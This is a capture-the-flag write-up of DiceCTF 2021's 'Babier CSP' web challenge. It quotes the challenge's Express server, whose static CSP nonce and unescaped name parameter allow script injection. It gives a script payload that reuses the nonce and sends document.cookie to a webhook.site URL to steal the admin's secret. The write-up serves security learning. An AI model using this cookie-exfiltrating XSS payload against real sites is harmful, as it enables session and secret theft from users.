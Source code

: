 # Babier CSP

- CTF: DiceCTF 2021
- Category: Web


## Instructions

[Baby CSP](https://2020.justctf.team/challenges/14) was too hard for us, try Babier CSP.

[babier-csp.dicec.tf](babier-csp.dicec.tf)

[Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)

The admin will set a cookie `secret` equal to `config.secret` in index.js.

```js
const express = require('express');
const crypto = require("crypto");
const config = require("./config.js");
const app = express()
const port = process.env.port || 3000;

const SECRET = config.secret;
const NONCE = crypto.randomBytes(16).toString('base64');

const template = name => `
<html>

${name === '' ? '': `<h1>${name}</h1>`}
<a href='#' id=elem>View Fruit</a>

<script nonce=${NONCE}>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>

</html>
`;

app.get('/', (req, res) => {
  res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
  res.send(template(req.query.name || ""));
})

app.use('/' + SECRET, express.static(__dirname + "/secret"));

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`)
});
```

## Analysis

The name query param seems allows XSS

![Name query param XSS](name-query-xss.png)

Key element is `<script nonce=${NONCE}>`. This is to ensure the script code is not introduced by some malicious third party. However this code is hard coded, which allows us to inject malicious script through the name query param.

We can now submit the following script to the Admin bot:

```html
<script nonce="LRGWAXOY98Es0zz0QOVmag==">document.location="https://webhook.site/768da366-9c5e-4d86-9140-8afb55ccbd1b?c="+document.cookie;</script>
```

The callback should have a `c` query param with the cookie `secret` set by the admin.

![Admin callback](admin-callback.png)

We can now visit the `/4b36b1b8e47f761263796b1defd80745` page

![Secret page](secret-page.png)

And view it source reveals the flag

![Flag](flag.png)
